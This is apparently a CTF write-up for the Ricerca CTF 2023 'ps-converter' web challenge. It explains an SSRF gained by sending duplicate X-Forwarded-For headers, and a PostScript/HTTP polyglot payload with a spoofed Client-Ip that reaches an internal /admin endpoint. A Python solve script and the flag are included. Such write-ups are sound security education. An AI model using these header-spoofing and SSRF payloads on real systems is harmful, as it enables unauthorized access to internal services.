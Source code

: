 ```yaml
---
layout: single
title:  "Ricerca CTF 2023 - (web) ps-converter"
date:   2023-04-23 00:00:00 +0200
categories: ctf web
permalink: "/ricercactf-2023-web-ps-converter"
excerpt: "The challenge is a webapp that lets us upload a [PostScript](https://en.wikipedia.org/wiki/PostScript) program, converts it to PDF and shows the result."
---
```

>**ps converter** (393 pts / 4 solves)
>
>Author: hugeh0ge
>
>Description: Try my Postscript converter!

{{ page.excerpt }}

The challenge files and solve scripts are available [here](https://github.com/apolloteapot/blog/tree/main/assets/ctf/2023/ricercactf/web/ps-converter).

![](/assets/ctf/2023/ricercactf/web/ps-converter/img/1.png)

Looking at the source code, we find out that the app is divided into 4 services: backend, frontend, flag and proxy.

In the frontend, the `/converter` endpoint is the interface where we can upload the PostScript file to be converted, which gets proxied to the root `/` endpoint of the backend.

In the backend, there's also an `/admin` endpoint that performs a request to the `/showmeflag` endpoint of the flag service and shows the output (flag), as long as we set a `Client-Ip` request header with value `127.0.0.1` or the backend IP, which is `123.45.67.102`.  

```go
client_ip_str := req.Header.Get("Client-Ip")
client_ip, err := net.ResolveIPAddr("ip", client_ip_str)
if check_err(err) { return }
my_ip, err := net.ResolveIPAddr("ip", "backend")
if check_err(err) { return }

if client_ip_str != "127.0.0.1" && !client_ip.IP.Equal(my_ip.IP) {
fmt.Fprintln(w, "You are not allowed to see the flag!")
return
}

res, err := http.PostForm("http://flag:3000/showmeflag", url.Values{}) 
if check_err(err) { return }
defer res.Body.Close()
```

However, the proxy doesn't allow direct external access the `/admin` endpoint of the backend. We need to find a way to perform SSRF as an internal request and read the output.

When the PostScript file we upload reaches the backend, the raw content is sent over TCP to the last comma-separated value of the `X-Forwarded-For` header, which would normally be the frontend IP (`123.45.67.100`) where the nginx server is. The frontend then converts the PostScript file to PDF.

```go
x_forwarded_for := req.Header.Get("X-Forwarded-For")
ips := strings.Split(x_forwarded_for, ", ")
ps2pdf := ips[len(ips)-1]
tcp_addr, err := net.ResolveTCPAddr("tcp", ps2pdf + ":3000")
conn, err := net.DialTCP("tcp", nil, tcp_addr)
if check_err(err) { return }

_, err = conn.Write(script)
if check_err(err) { return }
conn.CloseWrite()

var resp []byte
resp, err = io.ReadAll(conn)
if check_err(err) { return }
```

```bash
sudo -u user socat TCP-L:3000,reuseaddr,fork EXEC:"/run_ps2pdf.sh"
```

To perform SSRF, we need to spoof the `X-Forwarded-For` header so that the value of `ps2pdf` in the above code becomes an arbitrary host of our choosing instead of the frontend.

Using Burp Suite, we can try appending a fake `X-Forwarded-For` header to the POST `/converter` request.

```
X-Forwarded-For: test
```

However, we'll realize that it doesn't work because the frontend IP `123.45.67.100` gets appended by the proxy when it reaches the backend.

```
X-Forwarded-For: backend, 123.45.67.100
```

But if we send duplicate `X-Forwarded-For` headers, we realize that only the first one is taken, without the `123.45.67.100` being appended! By sending the following headers, we can make the backend perform a TCP-based SSRF to any host we want, for example the backend itself.

```
X-Forwarded-For: backend
X-Forwarded-For: dummy
```

Since HTTP is based on TCP, we can induce an SSRF to the `/admin` endpoint and read the flag if we manage to upload a PostScript file like this:

```
GET /admin HTTP/1.1
Host: backend
Client-Ip: 127.0.0.1
```

However, the backend checks if the file we upload is actually a valid PostScript file before sending it, so we need to find a way to modify our payload so that it becomes both a valid HTTP request and a valid PostScript file.

First, the backend checks if our file is a PostScript file with the Linux `file` command.

```go
// First, check if the posted file is actually a Postscript file.
// 1. check `file` output
cmd := exec.Command("file", "-")
cmd.Stdin = bytes.NewReader(script)
var stdout1 bytes.Buffer
var stderr1 bytes.Buffer
cmd.Stdout = &stdout1
cmd.Stderr = &stderr1

err = cmd.Run()
if check_err(err) { return }

err_str1 := stderr1.String()
if err_str1 != "" {
    w.Header().Set("Content-Type", "text/plain")
    w.WriteHeader(http.StatusInternalServerError)
    fmt.Fprintf(w, "file returned error: [redacted]\n")
    return
}

out_str1 := stdout1.String()
if !strings.Contains(out_str1, "PostScript document text") {
    w.Header().Set("Content-Type", "text/plain")
    w.WriteHeader(http.StatusBadRequest)
    fmt.Fprintf(w, "Get out, poor hacker!\n")
    return
}
```

On the [Wikipedia page](https://en.wikipedia.org/wiki/PostScript), we find out that the magic number of the PostScript file format is `%!`, which means our file needs to begin with `%!` to bypass the first check.

```
%!GET /admin HTTP/1.1
Host: backend
Client-Ip: 127.0.0.1
```

However, would the Go HTTP server (which the backend uses) still accept this as a valid GET request? Suprisingly, yes! Even if we append `%!`, Go still considers it to be the same request. However, if we try to perform SSRF to the `/showmeflag` endpoint of the flag server to read the flag directly, we will get a Bad Request error, because the flag server uses the Python HTTP server which doesn't consider it to be a valid request unlike Go.

Now, we need to bypass the second check, which verifies if the `ps2ps` tool can process the PostScript file without errors, which means that our payload must have valid PostScript syntax. With the payload above, we will get an error because the lines with our request headers are not valid PostScript.

```go
// 2. check if ps2ps can actually process the file
cmd = exec.Command("ps2ps", "/dev/stdin", "/dev/stdout")
cmd.Stdin = bytes.NewReader(script)
var stdout2 bytes.Buffer
var stderr2 bytes.Buffer
cmd.Stdout = &stdout2
cmd.Stderr = &stderr2

err = cmd.Run()
if check_err(err) { return }

err_str2 := stderr2.String()
if err_str2 != "" {
w.Header().Set("Content-Type", "text/plain")
w.WriteHeader(http.StatusInternalServerError)
fmt.Fprintf(w, "ps2ps returned error: [redacted]\n")
return
}
```

In PostScript, a comment begins with `%` so I first tried to comment out the lines with `Host` and `Client-Ip`. However, it didn't work because the Go HTTP server couldn't parse the headers correctly with `%` appended. Moreover, multi-line comments do not exist in PostScript, so using comments seemed like a dead-end.

```
%!GET /admin HTTP/1.1
%Host: backend
%Client-Ip: 127.0.0.1
```

After some research looking at the [commands available in PostScript](https://personal.math.ubc.ca/~cass/courses/ps.html), I found out that the `quit` command can terminate interpretation of the program, which means that if we put a `quit` command before out request headers, `ps2ps` will not return any error because it will terminate before trying to interpret our headers!

```
%!GET /admin HTTP/1.1
quit
Host: backend
Client-Ip: 127.0.0.1
```

However, it is still not sufficient because now the Go HTTP server will try to parse the `quit` as a request header and throw an error. Here is how I fixed this:

```
%!GET /admin HTTP/1.1
quit%: dummy
Host: backend
Client-Ip: 127.0.0.1


```

The Go server will interpret the second line as a request header with name `quit%` and value `dummy`, while the PostScript interpreter will treat everything after `%` as a comment. Notice that we add some CRLF at the end to conform to the HTTP protocol. This becomes our final payload (`solve.ps`).

Now, we only need to post this file to the `/converter` endpoint, while spoofing the `X-Forwarded-For` header. I use the `httpx` Python package in my solve script (`solve.py`) because `requests` doesn't support duplicate headers. You could also simply add the headers manually with Burp Suite.

```python
import httpx

headers = [
    ('X-Forwarded-For', 'backend'),
    ('X-Forwarded-For', 'dummy')
]
files = {
    'file': open('solve.ps', 'rb')
}
r = httpx.post('http://ps-converter.2023.ricercactf.com:51514/converter', headers=headers, files=files)

print(r.text)
```

After executing the script, we get the response containing the flag!

```
RicSec{0mg_It_d035nt_l00k_anyth1n9_f6b0c427d3e2}
```
